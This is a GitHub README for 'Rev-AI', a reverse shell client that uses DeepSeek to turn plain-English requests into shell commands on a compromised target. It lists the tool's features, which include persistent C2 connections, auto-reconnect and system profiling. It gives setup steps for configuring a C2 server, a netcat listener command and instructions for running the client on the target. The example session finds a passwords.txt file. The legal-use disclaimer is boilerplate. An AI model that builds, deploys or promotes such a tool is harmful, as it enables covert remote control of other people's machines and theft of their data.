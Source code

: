 🔄 Rev-AI: AI-Powered Reverse Shell Client

📌 Overview
Rev-AI is an intelligent reverse shell client that:

Translates natural language to Linux commands using DeepSeek AI
Maintains persistent connections with automatic reconnection
Provides detailed system diagnostics
Works across multiple operating systems

🚀 Features



Feature
Description



🤖 AI Command Generation
Converts English queries to executable commands


🔧 Cross-Platform
Supports Windows, Linux, and macOS targets


🔒 Secure Communication
Encrypted socket communication with timeouts


🔄 Auto-Reconnect
Resilient connection with configurable retry intervals


💻 System Profiling
Detailed OS/hardware information collection


🧠 Context Memory
Maintains conversation history with AI model


⚙️ Installation
# Clone the repository
git clone https://github.com/yourusername/rev-ai.git
cd rev-ai

# Install dependencies
pip install -r requirements.txt

# Configure environment (create .env file)
echo "RSHELL_HOST=your_server_ip" > .env
echo "RSHELL_PORT=62065" >> .env
echo "DEEPSEEK_API_KEY=your_api_key" >> .env

🛠 Configuration
Environment Variables
# Required
RSHELL_HOST="your_server_ip"  # C2 server IP
DEEPSEEK_API_KEY="sk-..."     # DeepSeek API key

# Optional
RSHELL_PORT=62065             # Connection port
RSHELL_RECONNECT=15           # Reconnect delay (seconds)
RSHELL_TIMEOUT=60             # Socket timeout 
RSHELL_MAX_HISTORY=20         # AI context memory
RSHELL_CONTEXT="context.md"   # AI instructions file

🖥 Usage
1. Start Listener (Server)
nc -lvnp 62065

2. Execute Client (Target)
python rev-ai.py

3. Available Commands
diagnostic            - Show system information
what did i tell you   - View command history
<natural language>    - AI-generated commands

Example Session
> diagnostic
[Windows]
User: admin
Version: Windows-10-10.0.19045
Admin: True

> list all txt files in /documents
TEXT:
[Query] list all txt files in /documents  
[Command] find /documents -name "*.txt" 2>/dev/null
[Output]
/docs/notes.txt
/docs/passwords.txt

⚠️ Security Notice
❗ Legal Use OnlyThis tool is intended for:

Authorized penetration testing
Educational purposes
Legitimate system administration

🔒 Required Precautions:

Obtain explicit written permission before deployment
Use only on systems you own/administrate
Never use for illegal activities

📜 License
MIT License - See LICENSE for full text.
📬 Contact
For security reports or questions:

Email: your@email.com
GitHub Issues: Open Issue


Disclaimer: Authors are not responsible for misuse of this software.
